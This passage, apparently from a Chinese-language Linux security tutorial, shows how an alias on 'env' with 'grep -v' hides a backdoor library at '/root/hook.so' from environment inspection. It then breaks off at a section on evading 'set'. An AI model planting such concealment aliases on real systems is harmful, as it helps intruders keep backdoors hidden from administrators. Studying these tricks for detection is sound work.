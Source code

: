 [![](assets/1708920000-96fad04cb2b2961311959c7ae44ac69d.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214162905484.png)

alias 劫持回显，grep -v 就可以了

[![](assets/1708920000-34a2f9e6e5895de5bcd0ff7686a0316e.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240214163038107.png)

```plain
alias env='func(){ env $* | grep -v "/root/hook.so";};func'
```

##### set 对抗

没有添加后门是这样：
